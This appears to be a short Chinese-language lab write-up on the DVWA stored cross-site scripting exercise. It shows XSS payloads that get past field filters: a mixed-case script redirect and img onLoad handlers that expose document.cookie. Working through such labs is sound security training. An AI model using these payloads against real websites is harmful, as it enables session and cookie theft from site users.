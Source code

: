 # Stored Cross Site Scripting (XSS)

```html
<sCript>location.href="https://1.1.1.1"</sCript>
```

這次後端顯然有過濾 Name 欄位

用  `img tag` + `onLoad` try try 看

Message 欄位也有過濾

```html
http://dvwa.localtest/vulnerabilities/xss_r/?name=<img src='https://picsum.photos/200/300' onLoad="eval(alert(document.cookie))">
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4dd11fac-810c-4707-908d-ccfdfa2c3847/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T132704Z&X-Amz-Expires=86400&X-Amz-Signature=2c897d163839c872c74c5d54392b4df7c7c0e2e4246b48a811276ce266c18927&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

### Done

第一個欄位可以用 img tag + onLoad @@ (一樣從前端修改長度限制)

```html
<img src='https://picsum.photos/200/300' onLoad="eval(alert(document.cookie))">
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/634fc04c-b395-46a9-9999-1b091626078b/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T133231Z&X-Amz-Expires=86400&X-Amz-Signature=a3d6bd9657e24b4a9c126f853d4ceeaaf8dfd59eed58de8cb44171abe30a24fc&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

運氣好有 try 到

原本還以為這關可能要使用 js 註解來迴避長度限制之類的
